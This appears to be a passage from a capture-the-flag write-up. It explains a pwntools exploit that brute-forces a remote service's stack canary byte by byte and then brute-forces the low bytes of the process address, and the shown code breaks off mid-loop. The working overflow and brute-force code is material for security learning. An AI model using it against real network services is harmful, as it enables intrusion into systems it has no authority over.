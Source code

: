 The `log_level` of `WARN` will eliminate the connection `INFO` messages emitted from pwntools.  This can be quite annoying, esp. when you're observing the output.

`server` and `port` get set from the command line.  Since multiple servers were provided, I ran against all of them in parallel.

The length of `buf` is the number of bytes just above the canary.  The values `0x48` and `0x10` are from the Ghidra stack diagram, IANS, `local_48` - `local_10`.

`x` is the list of candidate bytes for brute-forcing.  Basically all bytes but `\n`.  When the other end is using something like `fgets` or `gets`, input is terminated with `\n`.  This challenges uses `recv`, which is more like `read`.  Excluding `\n` is probably not necessary, but I was too lazy to read the code.  I figured if there were a `\n` in the canary or process address and since the canary/process address would not change, I could remove and test, but I never got a failure.  Anyway, it probably does not need to be there.

Lastly the canary.  The least significant x86_64 canary byte is `0x00`.  Only 7 bytes to go. :-)


### First Pass: Brute-force stack canary

```python
for i in range(7):
    for j in x:
        p = remote(server,port)
        p.recvuntil('[q] QUIT')
        payload = buf + canary + p8(j)
        p.send(payload)
        try:
            p.recvuntil('[q] QUIT')
            canary += p8(j)
            print(hex(u64(canary + (8 - len(canary)) * b'\x00')))
            p.close()
            break
        except:
            continue
    else:
        print("FAILED, you prob got a LF (0xa) in canary")
        sys.exit(1)

canary = u64(canary)
print('canary',hex(canary))
```

For each of the remaining 7 canary bytes, loop through all the candidate bytes and test if the remote child gets terminated or if returned back to the menu.  If returned back to menu, then that canary byte has been detected.

Locally this takes seconds.  Remotely about 5-10 minutes.


### Second Pass: Brute-force process address LSBytes

```python
bp = 8 * b'B'
selectimg = 0xe06

for i in range(16):
    p = remote(server,port)
    p.recvuntil('[q] QUIT')
    payload = buf + p64(canary) + bp + p16(selectimg + i * 0x1000)
    print(hex(selectimg + i * 0x1000))
    p.send(payload)
    try:
        p.recvuntil('[q] QUIT')
        p.close()
        break
    except:
```